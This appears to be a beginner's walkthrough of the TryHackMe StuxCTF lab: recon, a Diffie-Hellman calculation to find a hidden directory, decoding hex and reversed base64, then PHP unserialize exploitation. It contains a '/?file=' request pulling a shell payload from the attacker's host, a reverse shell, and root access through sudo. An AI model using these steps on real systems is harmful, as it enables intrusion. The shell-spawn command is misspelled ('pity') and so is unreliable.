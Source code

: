 ## StuxCTF 

You can find the link for the ctf below:
[tryhackme stuxCTF](https://tryhackme.com/room/stuxctf)
![](https://miro.medium.com/v2/resize:fit:640/1*q03Yuq0kOZf2SgFgkv2_hA.png)

StuxCTF is a great machine for beginners which involve cryptography and reverse shell. No more talks, Let’s start from the first step which is information gathering.

First so so basic thing start the machine and then connect to it using **openvpn**.
## NMAP

Use your nmap to find the open ports and the services running on the ports.
![](https://i.imgur.com/bLF18Wa.png)

As we can see here that we are having 2 ports open so lets start first watching the http site that is running on the port no 80.
![](https://i.imgur.com/OXjzS1P.png)

Also one of the common moves is check the source code of the page as well as check the robots.txt file of the server.
![](https://i.imgur.com/bC3Euu1.png)
and for the robots.txt we have this 
![](https://i.imgur.com/gA9irN3.png)
see they gave the direct hint that use **Diffie-Hellman** which is a encrypted way key exchange algorithm.

So before moving on let me give you the sources for understanding this diffie-hellman.
[Diffie-Hellman](https://www.techtarget.com/searchsecurity/definition/Diffie-Hellman-key-exchange)
also the video that i referred is this one:
[Video](https://www.youtube.com/watch?v=M-0qt6tdHzk)
This will give you that how are we using the diffie-Hellman in this CTF.

So first of all we will use python to calculate the final secrect directory that is supposed to be found using the diffie-hellman

the script for the same is as follows:
``` python                               
# Given values
p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545>
g = 7
a = 330
b = 450
g_c = 60919178008335987415309240817622254774182770101420226227316881582977596213294070709854979170789887814488899470743506942202097>

# Step 1: Compute (g_c^a mod p)
gca = (g_c**a) % p

# Step 2: Compute (g_c^a^b mod p)
gcab = (gca**b) % p

print(str(gcab)[:128])
```
from this you will get the string like this
![](https://i.imgur.com/0rgGmXE.png)

so lets try searching the site with this long string we got.
![](https://i.imgur.com/zpVAX1t.png)
noicee we got to the another step so lets move on with the same method of first checking the source code
![](https://i.imgur.com/mlPU3i2.png)
we got a hint here that here there will be a file that we have to find and get the content of it.
so lets try the basic common.txt list for dirbuster on this site url
```
dirbuster http://10.10.122.185:80/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/
```
you can just do **dirbuster** and then enter the url and all things
![](https://i.imgur.com/ch1XaGm.png)
so the things we found are **index.php** and **assets**
and will try both of them
![](https://i.imgur.com/z7SOrZQ.png)
and this is the string we got in the some format,
let check what does this mean

![](https://i.imgur.com/5Vso3VD.png)

After check few things and few trial and errors i got to know that this is a **hex** and i can covert it to normal form.

So lets use **xxd** if you dont know about it you can go and check what is [xxd](https://linux.die.net/man/1/xxd)
![](https://i.imgur.com/l9kxRNZ.png)
this is the text from the site and we will convert it to normal form.
``` bash
xxd -r -p text.txt > output.txt
```
and the output is as follows:
![](https://i.imgur.com/7ssZPmH.png)
here we got something and u can guess what is it 
and if you ask me it is a **reverse base64** and now lets try to break the string that what is the original message of this.

For that we will be using reverse the string using any language.

Here i am doing it using python script:
``` python
txt = "enter your string here"[::-1]
print(txt)
```
![](https://i.imgur.com/LUKIfTu.png)

and here we get new reversed string and then we will decode that string using the base64 and the command for the same is as follows:
``` bash
cat output2.txt | base64 -d > output3.txt
```
or any online tool to decode and encode from base 64
and the output is as follows:
![](https://i.imgur.com/fMBON9Y.png)
and using the command also we can get
![](https://i.imgur.com/Ui7DYdo.png)
and from this we can see that majority of the code is complete and fine but i got my eye on the **unserialize** function that was called with the file name and so i searched the web and found that it is vulnerable and can be exploited.

I have checked it using **searchsploit** if you dont know what is it you can check it here.
[Searchsploit](https://www.exploit-db.com/documentation/Offsec-SearchSploit.pdf)
![](https://i.imgur.com/mAOTq4l.png)
and and and once i get na that this thing is vulnerable i cannot stop myself trying to get that thing exploited😅😅.

so lets get a php one liner and shut the server up with regrets.

you can also download the script from here and then send it to the server and tell that person to execute it for you.
if the person is cooperative 😂😂.

so we will be doing is getting a php 1 line executable script which will do rce and get us a sweet little shell inside of our terminal.

you can get the same from here [RCE for Unserialize](https://notsosecure.com/remote-code-execution-php-unserialize)
and the script we will be using wont be a direct and easy one as we have to give it input like thisss
**/?file=**
which was given as a hint in past

so the code is already given has to get some modifications and the modifications are as follows:
![](https://i.imgur.com/f0shIeC.png)
and the text will be like this:
![](https://i.imgur.com/xpLzxnR.png)
so lets use this text and get a reverse shell
and and and dont forget to start the listening to 4444

Here we will be sending this file as text and using the tunnel ip and port that we have created for reverse shell...
```
/?file=http://10.17.8.41/shell.txt
```
and for that we will be starting a python http server that will send the file to the server.
![](https://i.imgur.com/XaZHz7M.png)
and you can see i have uploaded the file and now we will get the reverse shell
using the name we have used for the file
```
http://10.10.122.185/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/shell.php
```
![](https://i.imgur.com/ztGwxB7.png)
now after getting connected you can get the proper terminal or shell but i m happy with what we get 
```
python -c 'import pity;pity.spawn("/bin/bash");'
```
so i will be working directly
first we will check the user
```
cd /home
```
![](https://i.imgur.com/bxW6cJD.png)
then we will check the stored in it.
![](https://i.imgur.com/lDgowQo.png)
Here we got the user.txt 
now lets check the sudo permission and then we will check the root folder for the root.txt file 
```
sudo -l
```
![](https://i.imgur.com/blu0TWe.png)

and see we dont need any password to get root access
so lets see the txt file in root user
![](https://i.imgur.com/K4BR43e.png)
and donee!!!!.

We have completed the CTF.